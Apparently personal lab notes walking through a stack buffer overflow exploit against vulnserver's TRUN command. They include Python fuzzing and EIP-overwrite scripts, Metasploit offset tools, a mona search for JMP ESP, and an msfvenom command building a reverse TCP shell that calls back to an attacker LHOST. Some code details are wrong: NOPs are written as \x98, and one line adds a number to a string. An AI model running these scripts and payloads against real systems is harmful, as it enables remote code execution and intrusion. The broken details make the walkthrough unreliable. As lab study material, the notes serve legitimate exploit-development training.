 DL's:
    DL enterprise Windows: 
        Install in Win VM:  
            https://www.immunityinc.com/products/debugger/
            sites.google.com/site/lupingreycorner/vulnserver.zip?attredirects=0 
        Make sure to install immunity for ALL users. (python27.dll needs to be on all users)
        ImmunityDebugger - run as admin && vulnserver.exe as admin (both on VM)**
        Turn off all firewall rules on vulnserver Windows box
        vulnserver.exe run on port 9999
        Whenever vulnserver \| immunity crashes - restart

Exploit Development stages:
    I    Spiking - way to find vuln in program
    II   Fuzzing - similar to spiking but high bombardment
    III  Find Offset - where is Vuln
    IV   Overwrite EIP - to conduct buffer overflow
    V    Find bad char - cleanup
    VI   Find right module - cleanup
    VII  generate shellcode - success!

nc -nv <ip_vulnserver> 9999
    HELP **TRUN** spike TRUN 
        TRY spiking all cmds
   
I. Spiking TRUN
    generic_send_tcp:
    SYNTAX:/generic_send_tcp host port spike_script SKIPVAR SKIPSTR (./generic_send_tcp 192.168.1.100 701 spike.spk 0 0)
    generic_send_tcp <ip> 9999 spike.spk
           spike.spk::
             s_readline();
             s_string("STATS "); ## readline STATS && throw var "0" at STATS 
             s_string_variable("0");
             # readline STATS && throw var "0" at STATS 
             # No sucess 
    **Violations are GOOOD**
       access violation when executing "EIP [41414141] (hex AAAA)" https://www.partitionwizard.com/disk-recovery/exception-access-violation.html
            ## with "s_string("TRUN "); in script^^
       Look into registers
            see figure  && E:\Users\Carl\vulnserv.00401848.png
                "0XF0FF68 HT0 - RETURN TO KERNEL32.7582FA29"

II. Fuzzing Trun:
        1.py:: {
    #!/usr/bin/python
    import sys, socket
    from time import sleep
    buffer = "A" * 100 
    while True:
        try:
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.86.202',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode())) 
            s.close()
            sleep(1)
            buffer = buffer + "A"*100 ##append magnitude of 100 to current buffer. 
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer))) # Once crashes - will display byte location
            sys.exit()
                 } ## remove {} for script**
    ./1.py
        Parrot output: "The fuzzing crashed at 2300 bytes"
        vulnserver output: see fuzzTrun.png! [fuzz_trun_reg](fuzzTrun.png)
            ## EIP was not overwritten - but ~location of crash seen: "2300 bytes" **possible bytes required to break .exe**

III Finding Outset: "Pattern Create" 
      /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000 :: output="Aa0..5Co"
         vi 2.py:: {
            #!/usr/bin/python
            import sys, socket
            offset = "Aa0..5Co"
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('192.168.86.202',9999))
                s.send(("TRUN /.:/" + offset))
                s.close()
            except:
                print ("Error connecting to server")
                sys.exit()
                   } ## remove {} for script ##
       ## Should obtain value for EIP  && try not to cross ESP 
      output of 2.py :: EIP=00401D98 **possible exploitable offset**  && ESP="XGr" 

IV Overwriting EIP: "B*4 = 42424242"
    a) Now try with offset::
        /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 00401D98 :: output="Aa0..5Co"
            ## If : "[*] No exact matches, looking for likely candidates."
                Means in the create byte sequence ("Aa0..5Co"), there was no offset found. Offset is looking for 00401D98
                    Change value of "pattern_create.rb" to include more bytes - which will in turn UP chances of buffer overflow. 
                    **Try pattern_create.rb with 3000 instead of 2000.** see [Crash_With_3000bytes](crash_3000byte.png)
    b) Crash with 3000 bytes:
        /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 :: output="Aa0..Dv9"
            EIP = 386F4337 && ESP = "Co9..cw6"
            Now try with Offset:: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 ::
                !Success! Output of pattern_offset.rb: "[*] Exact match at offset 2003"
                    ** This is why 2000 bytes did not work. Offset is @ 2003 bytes.**
    c) 2003 byte offset: !Time to control EIP with overwrite!
        3.py :: {
            #!/usr/bin/python
            import sys, socket
            shellcode = "A" * 2003 + "B" * 4
            #2003 A's brings to EIP.
            #EIP is only 4 bytes
            #B will Overwrite EIP.
            #B=42424242 (B ASCII)
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('192.168.86.202',9999))
                s.send(("TRUN /.:/" + shellcode))
                s.close()
            except:
                print ("Error connecting to server")
                sys.exit()
                } ## remove {} for script ##
        ** See [B42_EIP_control](EIP_control.png) **

V. Finding BadCharacters:: (https://github.com/cytopia/badchars)
        Run hex char through program && find which "actup" - generally null bytes or 0's. (interger/sign overflow)
            edit 2.py
                add variable: badchars = (\x00..\xff)
                    ** delete byte \x00 - already aware it's bad. (Always try \x00 - may cause false positives) **
                    ** once barchar identified - do not want to include in shellcode - it may break shell.
            add to : shellcode = "A" * 2003 + "B" * 4 + barchars
        Run 2.py::
            focus on hexdump of ESP: right click - hexdump
                No badchars with first badchar list (no out of place values in hexdump)
                Note the chars that are MISSING:
                consecutive chars - only first char is BAD char. 
    Run another bad char list: 

VI. Finding Right module: Find .dll with 0 memory protections (https://github.com/corelan/mona)
            mona.py placed -> This PC\LocalDisk(C:)\ProgramFiles(x86)\immunityInc\ImmunityDebugger\Pycommands W/ vulnserver && immunity.
                   -> ThisPC\LocalDisk(C:)\ProgramFiles(x86)\Immunity\ImmunityDebugger\Pycommands
            Lower cmd prompt:"!mona modules" terminal w/ green text should pop up. "Addresses && messages"
                Error popup: ** CRC changed. discarding .udd data ** https://reverseengineering.stackexchange.com/questions/9083/bypassing-crc-check
            Protection settings include: Rebase,SafeSEH,ASLR,NXCompat,OS dll
        ** Looking for: Something attached to process (vulnserver.exe) && all False. **
    Find Opcode equivalent of address to process. see [mona_dll_search](essfunc_dll.png) **AL to HEX**
            locate nasm shell (/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb)
                ** only works on Kali - Parrot throws error
                    nasm > JMP ESP
                    00000000  FFE4              jmp esp
                    ## FFE4 is Hex equivalent of "jmp esp" in AL ##
                    ## We want to find locale where esp is in AL - once there we can inject .dll**
    "!mona find -s "\xff\xe4" -m essfunc.dll"
            Output: "Found a total of 9 pointers"
                Mona will search in essfunc for this reg call. See [reg_ptrs_in_essfunc_mona](ffe4_essfunc.png)
                *Use Address of these pointers* :: 0x625011af..0x625012a05
        edit 2.py:: delete B and replace with EIP address Which is a JMP call::
            shellcode = "A" * 2003 + "\xaf\x11\x50\x62" 
                 #address must be in reverse because w/ x86 arch - it uses little endian formatting
                 #little endian stores low order byte at low address and high order byte at high address 
        Immunity must catch this jmp call:
            "Go to address in Disassembler"
                "Enter expression to follow": enter address (625011af)
                    Press F2 - sets breakpoint (address should turn blue) - program will PAUSE once address is hit. 
            ./2.py:: "breakpoint at essfunc.625011AF" see [BP_essfunc_immunity](essfuncBP.png)

VII Generate Shell Cod3:
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.86.178 LPORT=5555 EXITFUNC=thread -f c -a x86 -b "\x00"
        ## EXITFUNC = more stable shell, -b badchar(to avoid), -a arch, -c export into C, ##
        ## Payload size: space available - sometimes must shrink payload size. 351bytes ITE (in this example)
    copy payload: "\xba\...\xal" Do not need ; because usingn for .py
    edit 2.py
        add variable: overflow = (     ##make sure to enter after 1st parenthesis ##
                      "\xba\...\xal")
        edit line: shellcode = "A" + 2003 + "\xaf\x11\x50\x62" + "\x98" * 32 + overflow
        ## inject 2003 A's: hit EIP -> inject essfunc.dll ("\xaf\x11\x50\x62") -> inject msvenom payload XD
        ## Must add NOP's or "padding" ITE:: \x98 * 32

TODO:: python3 section::
